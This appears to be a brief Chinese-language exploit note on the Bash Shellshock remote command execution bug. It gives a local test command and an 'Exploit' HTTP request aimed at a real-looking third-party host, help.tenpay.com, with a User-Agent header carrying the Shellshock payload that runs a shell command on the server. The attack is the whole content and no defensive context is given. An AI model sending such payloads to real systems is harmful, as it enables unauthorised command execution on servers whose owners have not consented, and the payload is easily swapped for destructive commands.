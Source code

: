 ### Bash远程解析命令执行漏洞
测试方法
```shell
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

Exploit:
```http
GET /cgi-bin/test.cgi HTTP/1.1 
Host: help.tenpay.com 
User-Agent: () { :;}; touch /tmp/hack
Accept: */*
Referer: http://www.example.com
Connection: keep-alive
```
